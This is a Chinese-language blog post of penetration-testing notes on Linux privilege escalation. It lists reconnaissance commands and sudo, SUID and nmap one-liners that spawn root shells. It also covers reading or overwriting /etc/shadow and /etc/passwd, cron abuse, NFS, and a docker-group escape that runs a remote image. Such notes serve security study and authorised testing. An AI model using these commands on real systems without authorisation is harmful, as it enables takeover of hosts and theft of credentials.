




利用内核栈溢出提权
信息收集
- uname -a：内核版本
- uname -mrs
- rpm -q kernel
- dmesg | grep Linux
- ls /boot | grep vmlinuz-
- cat /proc/version
- cat /etc/*-release：发行版本
利用
使用linux-exploit-suggester-2.pl辅助提权工具

之后跟着exp打
明文root密码提权
- 如果passwd文件可写，我们就可以将passwd中的密码hash值替换成我们一直密码的hash值(当然，不同的linux版本可能算法不同，我们使用自己的linux的hash值更保险)
- 如果
shadow文件可读，我们可以得到root密码的hash值，进行暴力破解
只有就可以利用john进行破解
sudo命令滥用
sudo就是让的普通用户执行超级用户的权限，其配置文件为
/etc/sudoers记录了可以执行sudo的账户和命令或者是否需要密码认证

我们就可以通过sudo命令进行提权可以通过sudo -l命令来查看可以sudo执行的命令
awk
sudo awk 'BEGIN {system("/bin/bash")}'
find
sudo find . -exec /bin/sh \;
其他的sudo提权命令使用方式可以查看项目
计划任务
首先查看对应机器的计划任务
cat /etc/crontab
如果有计划任务，并且这个任务文件具有写权限，就可以写入恶意命令提升权限
命令提权
- nmap Nmap（2.02 到 5.21）具有交互模式，允许用户执行 shell 命令。由于 Nmap 位于以 root 权限执行的二进制文件列表中，因此可以使用交互式控制台来运行具有相同权限的 shell
nmap –interactive
!sh
whoami
SUID
它允许用户执行的文件以该文件的拥有者的身份运行
如果ls之后发现具有s属性才可以进行SUID提权
添加s权限
chmod u+s filename

这样具有s权限的就可以进行SUID提权
查找SUID文件
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;常见命令
- find
find . -exec /bin/sh -p \;
- vim
vim /etc/shadow- vim
:set shell=/bin/sh
:shell
whoami
服务漏洞
netstat -antup查看各种网络服务
利用NFS提权
cat /etc/exports
Linux提权姿势二：利用NFS提权 - 云+社区 - 腾讯云 (tencent.com)docker用户组提权
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
命令收集
可以写入或者执行
find / -writable -type d 2>/dev/null # world-writeable folders find / -perm -222 -type d 2>/dev/null # world-writeable folders find / -perm -o w -type d 2>/dev/null # world-writeable folders find / -perm -o x -type d 2>/dev/null # world-executable folders find / \( -perm -o w -perm -o x \) -type d 2>/dev/null # world-writeable
参考
I'm so cute. Please give me money.


- Post link: https://roboterh.github.io/2022/04/12/Linux%E6%8F%90%E6%9D%83%E6%80%9D%E8%B7%AF/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.